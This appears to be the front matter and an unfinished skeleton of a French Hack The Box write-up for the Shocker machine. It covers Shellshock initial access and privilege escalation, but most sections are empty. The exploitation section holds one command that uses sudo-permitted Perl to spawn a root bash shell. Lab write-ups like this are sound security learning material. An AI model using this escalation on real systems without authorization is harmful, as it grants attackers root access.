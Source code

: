 ```yaml
---
title: "Shocker.htb"
date: 2025-08-05
draft: false
showToc: true
tags: ["htb", "shellshock", "Privilege Escalation", "Linux"]
categories: ["HackTheBox", "Easy"]
cover:
  image: "image.png"
summary: "Ce writeup détaille l’exploitation de la vulnérabilité Shellshock sur la machine Shocker.htb (Hack The Box) : accès initial via CGI/Bash, puis élévation de privilèges."
---
```


{{< tagsline >}}

## Accès initial

...

## Exploitation

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
